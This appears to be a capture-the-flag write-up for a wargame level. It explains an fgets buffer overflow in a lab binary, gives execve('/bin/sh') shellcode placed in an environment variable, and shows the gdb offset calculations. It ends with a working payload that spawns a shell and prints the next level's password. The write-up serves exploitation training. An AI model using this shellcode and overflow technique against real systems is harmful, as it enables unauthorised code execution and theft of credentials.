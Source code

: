 ## LEVEL 01
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level01.asm) and the [source file](./src/level01.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

#### For this level, the NX security is disabled, so we can use the buffer overflow attack again. That's advantageous because we're going to need it.
---

We're going to apply the same automation techniques as we did in Rainfall. First, we need to find a vulnerability within the code. If we examine the `main` function, we find two interesting lines:
```c
char buffer[0x40];
[...]
fgets(buffer, 0x64, stdin);
```

The `fgets` function reads 100 characters from the standard input and stores them in the `buffer` variable. The problem is that the `buffer` variable is only 64 bytes long, so we can write 36 bytes after the end of the buffer. This is a vulnerability that we can exploit and it's really similar to what we used in rainfall.

The second thing I noticed is that the program never calls `system` so we have to use a Shellcode again. I will use a Shellcode inside the environment variable `SHELLCODE` to make it easier to use. I will also use the same Shellcode as in rainfall.

```shell
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now we just need to find the EIP offset. I will also use the same technique as in rainfall.

```shell
(gdb) x/a $ebp+4
0xffffd70c:	0xf7e45513
(gdb) x/a $esp+0x1c
0xffffd6bc:	0x0
```

The EIP offset is `0xffffd70c - 0xffffd6bc = 0x50 <==> 80`. Now we can write the exploit.

The first thing I need to know is the address of the environment variable `SHELLCODE`.

```shell
(gdb) x/s *((char **)environ)
0xffffd889:	 "SHELLCODE=\220\220\220[...]
```

I will add 0x20 to the address to avoid conflicts with the environment variable name and to ensure that we are on the NOP offset. The final address will be `0xffffd8a9`.

Now we can exploit the binary. Unlike Rainfall, I won't put the Python result in a temporary file; instead, I will directly pipe it to the binary. It will be easier for me to use.

```shell
$ (python -c 'print "dat_wil"'; python -c 'print "\x90"*80 + "\xa9\xd8\xff\xff"'; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```